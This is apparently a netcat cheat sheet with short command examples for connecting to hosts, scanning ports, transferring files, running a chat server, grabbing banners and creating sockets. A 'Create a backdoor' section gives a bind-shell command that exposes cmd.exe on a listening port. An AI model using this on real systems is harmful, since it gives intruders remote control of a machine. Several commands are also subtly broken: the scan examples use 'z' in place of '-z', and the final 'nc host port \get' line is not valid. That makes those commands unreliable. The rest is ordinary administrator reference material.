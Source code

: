 ### `nc`
The netcat utility allows testing of a host's ports, similar to __ping__, but more versatile because __ping__ only uses the portless ICMP protocol. GNU and OpenBSD versions available (itp-l+: 28)

Option  | Effect
:---    | :---
`-l`    | listening mode

Connect to host on port 80
```
nc example.com 80
```
Scan ports
```
# Scan a single port
nc -v -w 2 z 192.168.56.1 22

# Scan multiple ports
nc -v -w 2 z 192.168.56.1 22 80

# Scan a range of ports
nc -v -w 2 z 192.168.56.1 22-25
```
Transfer files between servers
This example uses the `pv` utility to monitor progress.
```
# Run `nc` in listening mode (`-l` option) on port 3000
tar -zcf - debian-10.0.0-amd64-xfce-CD-1.iso | pv | nc -l -p 3000 -q 5

# On the receiving client, to obtain the file:
nc 192.168.1.4 3000 | pv | tar -zxf -
```
Create a command-line chat server
```
# Create chat server listening on port 5000
nc -l -vv -p 5000

# Launch a chat session on the other system
nc 192.168.56.1 5000
```
Find a service running on port
Obtain port banners (`-n` disables DNS lookup)
```
nc -v -n 192.168.56.110 80
```
Create stream sockets
Create and listen on a UNIX-domain stream socket
```
nc -lU /var/tmp/mysocket &
ss -lpn | grep "/var/tmp/"
```
Create a backdoor
Netcat needs to listen on a chosen port (here 3001): `-d` disables reading from stdin; `-e` specifies the command to run on the target system
```
nc -L -p 3001 -d -e cmd.exe
```
Connect to {port} at {host}
```sh
nc host port
```
Netcat command that retrieves a webpage
```sh
nc host port \get
```